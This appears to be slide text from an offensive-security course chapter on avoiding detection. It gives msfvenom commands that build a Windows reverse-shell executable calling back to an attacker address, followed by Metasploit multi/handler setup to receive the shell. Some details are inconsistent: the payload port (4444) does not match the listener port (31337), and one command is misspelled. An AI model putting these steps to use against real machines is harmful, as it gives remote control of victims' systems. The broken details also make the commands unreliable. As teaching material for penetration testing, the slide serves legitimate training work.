

# Chapter 7 A V O I D I N G  D E T E C T I O N
Creating Binaries With MSF-Venom
msfvenom windows/shell_reverse_tcp

msfvenom windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444  >> exploit.exe

Open Metasploit Multi Handler Session
msfconsoe
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST 192.168.1.1
set LPORT 31337